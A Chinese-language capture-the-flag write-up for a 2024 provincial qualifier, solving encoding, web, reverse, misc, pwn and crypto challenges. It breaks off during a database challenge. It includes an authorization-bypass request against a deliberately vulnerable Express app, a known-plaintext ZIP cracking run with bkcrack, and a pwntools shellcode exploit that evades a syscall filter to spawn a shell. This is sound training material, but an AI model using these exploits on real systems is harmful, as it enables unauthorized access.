## 省赛预赛


### 签到-签到题

```txt
6L<Ak3,*@VM*>7U&FZFNWc,Ib=t,X!+,BnSDfoaNhdiO*][5F];eV^]Lm&?$'<oeGH&6tqcgK_JDp-3;8wh?Si,G$BarTFjE?b$eR/,Igij<({u90M$5If589[<4+jp%3_%R(526#1J|m5p&H+%.#d0<DmLK*#-\8w:xD2Y[3jO{l8[)<(F[=Bcixb>Jp^%L2XvVTzW@9OTko/P74d1sFscEbMO7Vhp&HM;+ww/v[KM1%2M*7O\}rEZM.LM0'\iwK:])pg-nJef\Rt4

-> base92

:2WsR9eo=EA2%h#>&.;[@sVfC=]\cp;cldd<btVh:IeqR=))D<;Fjh`:3pGh9kmF$A6)#b;0kYf=Y`Tp>":;\9e\O]=)(2\@mt3%@o[b2@PDj\@5:GL;clXGA8QF0<\[$#A27XM<c)A_A4JJ#ASspo;(ssa;/7md;/T-H;b0o59iZ9n;H@RX;cmj;<`O*6=`$/Q=%>8qA27=\@96u]@7FCG=`.,)

--> base85

NnRwM2JZd0lVZkZoczh1YWZDSXNIVlQ3OGd6WjhFRHVNNzdoMjNRdVBDQzE4Y2JyZG1hM081WjF3cElDcUx5b0s5a2JMSXJ0dmtsV1E5d2c2VmdkdG4wenE5Q081Qk1UQnNnSHUxMUt6RVkxSXlWVUpNYm90WG9xd2ZJaWdtaFYzYnRC

-> base64

6tp3bYwIUfFhs8uafCIsHVT78gzZ8EDuM77h23QuPCC18cbrdma3O5Z1wpICqLyoK9kbLIrtvklWQ9wg6Vgdtn0zq9CO5BMTBsgHu11KzEY1IyVUJMbotXoqwfIigmhV3btB

-> base62

nbgCtvcRjay6YrYmWqGk6JgBhUgGWx3Dii4T1jYoihmpb79zcuiqMvFCdLxvkNDn4768DTbxsegoHAxNf5czNPPAfgMoe6LRui

-> base58

5C9VB8W09FG6DC9LX6J1A3T9ZY9P7BKG6+M9B1AO7BI%6OTAZY91G60Z9%IBG09NIBNB9TB9

-> base45

IRAVGQ2UIZ5XOZLMMNXW2ZK7ORXV66TKMN2GMXZSGAZDI7I=

-> base32

DASCTF{welcome_to_zjctf_2024}
```

base编码套娃题。

### 签到-网安知识大挑战







从源码中获取答案即可。

### web-easyjs

```js
const express = require('express');
const _ = require('lodash');
const fs = require('fs');
const app = express();

app.use(express.json());

// 存储笔记的对象
const notes = {};

// 创建新笔记
app.post('/api/notes', (req, res) => {
    const noteId = req.body.id;
    const noteData = req.body;
    
    if (!noteId) {
        return res.status(400).json({ error: 'Missing id' });
    }

    // 使用lodash.merge，该版本存在原型链污染漏洞
    notes[noteId] = {};
    _.merge(notes[noteId], noteData);
    console.log('Note prototype:', Object.getPrototypeOf(notes[noteId]));
    console.log('Note properties:', notes[noteId]);
    res.json(notes[noteId]);
});

// 获取笔记
app.get('/api/notes/:id', (req, res) => {
    const noteId = req.params.id;
    
    if (!notes[noteId]) {
        return res.status(404).json({ error: 'Note not found' });
    }
    
    res.json(notes[noteId]);
});

// 获取flag (仅管理员可访问)
app.get('/api/flag', (req, res) => {
    const noteId = req.headers['note-id'];
    
    if (!noteId || !notes[noteId]) {
        return res.status(403).json({ error: 'Authentication required' });
    }

    if (!notes[noteId].isAdmin) {
        return res.status(403).json({ error: 'Admin access required' });
    }

    try {
        const flag = fs.readFileSync('/flag', 'utf8');
        res.json({ flag: flag.trim() });
    } catch (err) {
        res.status(500).json({ error: 'Error reading flag' });
    }
});

app.listen(8000, () => {
    console.log('Server running on port 8000');
});
```

虽然他说了原型链污染，但是好像不需要用到，直接传一个`isAdmin: true`就可以了。

POST:

```txt
{"id":100, "isAdmin":true}
```

GET:

```txt
node-id: 100
```

结果：



### reverse-ezRe

拿到一个二进制文件，先`file`一下：

```bash
$ file ezRe
ezRe: Byte-compiled Python module for CPython 3.9, timestamp-based, .py timestamp: Mon Oct 21 03:17:07 2024 UTC, .py size: 722 bytes
```

是pyc字节码，先`mv ezRe ezRe.pyc`一下。

`pycdc`反编译，同时对照`pycdas`修正一些反编译错误的地方：

```python
import base64
text = input('Flag: ')
key = '7e021a7dd49e4bd0837e22129682551b'
key = [ ord(i) ^ 102 for i in key ]
s = list(range(256))
j = 0
for i in range(256):
    j = (j + s[i] + key[i % len(key)]) % 256
    s[i], s[j] = s[j], s[i]
i = j = 0
data = []
for _ in range(50):
    i = (i + 1) % 256
    j = (j + s[i]) % 256
    s[i], s[j] = s[j], s[i]
    data.append(s[(s[i] + s[j]) % 256])

result = ''
for c, k in zip(text, data):
    result += chr(ord(c) ^ k ^ 51)
enc = base64.b64encode(result.encode()).decode()
if enc == 'w53Cj3HDgzTCsSM5wrg6FMKcw58Qw7RZSFLCljRxwrxbwrVdw4AEwqMjw7/DkMKTw4/Cv8Onw4NGw7jDmSdcwq4GGg==':
    print('yes!')
else:
    print('try again...')
```

是魔改RC4，直接解密：

```python
import base64

data = [170, 253, 17, 179, 83, 196, 107, 105, 233, 56, 16, 150, 143, 64, 241, 71, 24, 84, 151, 101, 111, 187, 11, 183, 89, 222, 14, 245, 118, 254, 206, 193, 159, 190, 228, 147, 19, 243, 143, 114, 11, 254, 6, 84, 179, 4, 120, 202, 116, 18]
b64_dec = base64.b64decode('w53Cj3HDgzTCsSM5wrg6FMKcw58Qw7RZSFLCljRxwrxbwrVdw4AEwqMjw7/DkMKTw4/Cv8Onw4NGw7jDmSdcwq4GGg==').decode()
flag = ''.join([chr(ord(x) ^ y ^ 51) for x, y in zip(b64_dec, data)])
print(flag)
```

### misc-RealSignin


图片隐写，常规流程：

1. binwalk: 未发现隐藏文件
2. Stegsolve: 发现LSB隐写`ABCDEFGHIJKLMNabcdefghijklmnopqrstuvwxyzOPQRSTUVWXYZ0123456789+/`

    

3. 010 Editor: 发现图片末尾编码字符串`dEFfc1dGq1pxMgMWnihrMx9mewNgdvIWMvctrc`

    

换表base64：



### misc-机密文档



发现压缩包有密码，压缩包里面有一个名字很长的文件。显然是明文攻击，使用`bkcrack`：

```sh
$ echo -n the_secret_you_never_ever_know_hahahaha > plain.txt
bkcrack -C 机密文档.zip -c the_secret_you_never_ever_know_hahahaha.zip -p plain.txt -o 30
bkcrack 1.7.0 - 2024-05-26
[16:05:40] Z reduction using 31 bytes of known plaintext
100.0 % (31 / 31)
[16:05:41] Attack on 252307 Z values at index 37
Keys: b8edf1ff c1f93a7e f93d08e0
81.3 % (205174 / 252307)
Found a solution. Stopping.
You may resume the attack with the option: --continue-attack 205174
[16:07:26] Keys
b8edf1ff c1f93a7e f93d08e0
$ unzip out.zip
Archive:  out.zip
 extracting: the_secret_you_never_ever_know_hahahaha.zip  
$ unzip the_secret_you_never_ever_know_hahahaha.zip
Archive:  the_secret_you_never_ever_know_hahahaha.zip
  inflating: the_secret_you_never_ever_know_hahahaha.docm 
$ file the_secret_you_never_ever_know_hahahaha.docm
the_secret_you_never_ever_know_hahahaha.docm: Microsoft Word 2007+
```

获得一个`the_secret_you_never_ever_know_hahahaha.docm`，可以用word打开，里面有一张图片还有一段宏代码：



```txt
Sub key()
    Dim decValues As Variant
    Dim str As String
    Dim result As String
    Dim i As Integer
    Dim xorValue As Integer
    
    decValues = Array(26, 25, 28, 0, 16, 1, 74, 75, 45, 29, 19, 49, 61, 60, 3)
    str = "outguess"
    result = ""

    For i = LBound(decValues) To UBound(decValues)
        xorValue = decValues(i) Xor Asc(Mid(str, (i Mod Len(str)) + 1, 1))
        result = result & Chr(xorValue)
    Next i

End Sub
```

根据宏中的提示，使用了outguess隐写，密钥可以通过执行宏获取`ulhged98BhgVHYp`

```bash
$ unzip the_secret_you_never_ever_know_hahahaha.docm -d docm
$ ls doc/word/media/
image1.jpeg
$ mv doc/word/media/image1.jpeg image1.jpg
$ outguess -r image1.jpg -k ulhged98BhgVHYp -t flag.txt
Reading image1.jpg....
Extracting usable bits:   44417 bits
Steg retrieve: seed: 156, len: 26
$ cat flag.txt
DASCTF{B1g_S3CR3t_F0R_Y0u}
```

### pwn-shellcode



保护全开。



程序在随机地址开一个mmap，大小4KB。

然后读入10字节到`haystack`里面，用`memmem`搜索有没有`0x0F05`，也就是`syscall`，如果有，不让执行。

所以这题要在禁用`syscall`的情况下，来getshell，并且只能利用10字节的空间。空间太小，肯定不能直接使用shellcode，因此这题肯定是要绕过10字节限制，把shellcode写到mmap里。

唯一能控制mmap的地方是`read`函数，因此需要在10字节的空间里面，实现对`read`参数的控制。



只需控制`rdx`，然后跳转到`mov edx, 0Ah`，之后，即可无限制写入shellcode。

payload：

```asm
pop rdx      ; 1B
sub edx, 68  ; 4B
push rdx     ; 1B
mov rdx, r11 ; 3B, 此处r11 = 0x246
ret          ; 1B
```

exp:

```python
from pwn import *
context.log_level = 'DEBUG'

context(os="linux", arch="x86-64")

p = process("./shellcode")
# p = gdb.debug("./shellcode")

shellcode='''
pop rdx
sub rdx, 68
push rdx
mov rdx, r11
ret        
'''
print(asm(shellcode))
payload = asm(shellcode).ljust(10, b'\x90')
p.send(payload)
p.send(asm(shellcraft.sh()))
p.interactive()
```

### crypto-myez_encode

```python
from Crypto.Util.number import bytes_to_long, getPrime
from sympy import isprime
import random
from flag import flag
def generate_ecc_parameters():
    x = random.randint(1, 1 << 512)
    y = random.randint(1, 1 << 512)
    return x, y

def find_prime_on_curve(x, y, a, b, ecc_p):
    p = x
    q = y
    while not (isprime(p) and isprime(q)):
        p = random.randint(2, ecc_p - 1)
        q = (p**3 + a * p + b) % ecc_p
    return p, q

def generate_rsa_parameters():
    a = getPrime(512) 
    b = getPrime(512)   
    ecc_p = getPrime(512)  
    x, y = generate_ecc_parameters()
    p, q = find_prime_on_curve(x, y, a, b, ecc_p)
    n = p * q
    print(f"p= {p}\nq= {q}\nn= {n}")
    print(f"a= {a}\nb= {b}")
    print(f"P= {ecc_p}")
    
if __name__ == "__main__":
    generate_rsa_parameters()

n = p*q
e = 9
m = bytes_to_long(flag)
c = pow(m,e,n)
print(c)

'''
n= 23298836191712395990541254600776262066247692725919114528027158820049802443474994576179738462067629079873633948850637889127452791527914591229415148712172587856497614285410824614070907847594399218298016379507879066220104597707859246179921731928508884947347652904142879813069359815823184922170241099916465722623
a= 7388665644223916915334064243181348811184637180763467245762518813757790945069068654378380490110607063038613823004593920489924786053478102905200169738195523
b= 11742940161647091720180482697980016011774828087234021441133595442949631197989696508358388255191793888646498553804646435609849154496274569000398776043150743
P= 11300086101709077144191286182913849072593185125745291892398153828719453495325025227858328617077648296782357912556752467026523366682963139253552060862229027
c= 9314530945343661153059846131608414257092556390479105017633636336832925597262814680689800448223193301814365726128618348603188219757245073917910487794768758461683644600756896595336654006282030911824869219015400826589122838492456940861634378619000373353637666835642505021355710338342048772713981673863167110471
'''
```

$$
\begin{align*}
n &= p \times q \\
q &\equiv (p^3 + a p + b) \pmod{ecc_p} \\
n &\equiv (p^4 + a p^2 + b p) \pmod{ecc_p} \\
\end{align*}
$$

通过解方程分解出$n = p q$，然后发现$e$和$\varphi(n)$不互质，不能直接求$d$，但是$e$较小，可以直接开根：

```python
from sage.all import *
from Crypto.Util.number import long_to_bytes

n= 23298836191712395990541254600776262066247692725919114528027158820049802443474994576179738462067629079873633948850637889127452791527914591229415148712172587856497614285410824614070907847594399218298016379507879066220104597707859246179921731928508884947347652904142879813069359815823184922170241099916465722623
a= 7388665644223916915334064243181348811184637180763467245762518813757790945069068654378380490110607063038613823004593920489924786053478102905200169738195523
b= 11742940161647091720180482697980016011774828087234021441133595442949631197989696508358388255191793888646498553804646435609849154496274569000398776043150743
P= 11300086101709077144191286182913849072593185125745291892398153828719453495325025227858328617077648296782357912556752467026523366682963139253552060862229027
c= 9314530945343661153059846131608414257092556390479105017633636336832925597262814680689800448223193301814365726128618348603188219757245073917910487794768758461683644600756896595336654006282030911824869219015400826589122838492456940861634378619000373353637666835642505021355710338342048772713981673863167110471
n, a, b, P, c = Integer(n), Integer(a), Integer(b), Integer(P), Integer(c)

R = Zmod(P)['x']
x = R.gen()
# p**4 + a * p**2 + b * p = n
f = x**4 + a * x**2 + b * x - n
# f.roots()
# [(2925490712948356009205547798331037409204468852265154197929696123102317330847028997592576845375767951888373634075473448002921250636926630905567362014595493, 1)]
p = 2925490712948356009205547798331037409204468852265154197929696123102317330847028997592576845375767951888373634075473448002921250636926630905567362014595493
assert n % p == 0
q = n // p

e = Integer(9)
# gcd(e, p-1) = 3
# gcd(e, q-1) = 1
for m_p in Mod(c, p).nth_root(e, all=True):
    m_q = Mod(c, q) ** inverse_mod(e, q-1)
    print(long_to_bytes(crt([Integer(m_p), Integer(m_q)], [p, q])))
```

运行即可输出flag。

### 信创安全-ds-data



拖到mysql的数据文件夹里面就可以打开题目给的文件了。

```txt
mysql> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| person             |
| sys                |
+--------------------+
5 rows in set (0.02 sec)

mysql> USE person;
Database changed
mysql> SHOW TABLES;
+------------------+
| Tables_in_person |
+------------------+
| data             |
+------------------+
1 row in set (0.01 sec)

mysql> DESCRIBE data;
+------------+--------------+------+-----+---------+-------+
| Field      | Type         | Null | Key | Default | Extra |
+------------+--------------+------+-----+---------+-------+
| userid     | int(255)     | NO   | PRI | NULL    |       |
| username   | varchar(255) | YES  |     | NULL    |       |
| password   | varchar(255) | YES  |     | NULL    |       |
